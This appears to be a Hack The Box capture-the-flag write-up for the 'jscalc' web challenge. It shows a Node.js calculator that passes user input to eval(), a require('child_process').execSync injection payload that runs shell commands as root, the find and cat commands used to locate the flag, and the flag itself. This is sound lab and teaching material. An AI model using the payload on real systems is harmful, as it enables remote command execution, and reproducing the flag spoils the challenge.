




# Challenge

jscalc is a web challenge on hack the box. The challenge description mentions that you can do "inkjet trajectory calculations" using a JavaScript calculator.


# calculatorHelper.js

Looking at the `challenge/helpers/calculatorHelper.js` file, we see that the calcuator uses the JavaScript `eval()` function which is vulnerable to code injection\.

```js
module.exports = {
    calculate(formula) {
        try {
            return eval(`(function() { return ${ formula } ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
}
```

# Getting a shell

We can inject JavaScript into calculator's text box to get a Linux shell. `require('child_process')` spawns a subprocess, the `execSync('linux cmd')` command runs a linux command, and the `toString()` allows us to see the output of our command.

```javascript
require('child_process').execSync('linux cmd').toString()
```

For example, we run the linux `whoami` command find that we are `root`.


# Locating the Flag

We search all of our files for a file named `flag.txt` using the linux command `find / -name flag.txt`.


# Viewing the Flag

We view the content of the `flag.txt` file using the linux command `cat /flag.txt`. The flag is `HTB{c4lcul4t3d_my_w4y_thr0ugh_rc3}`.

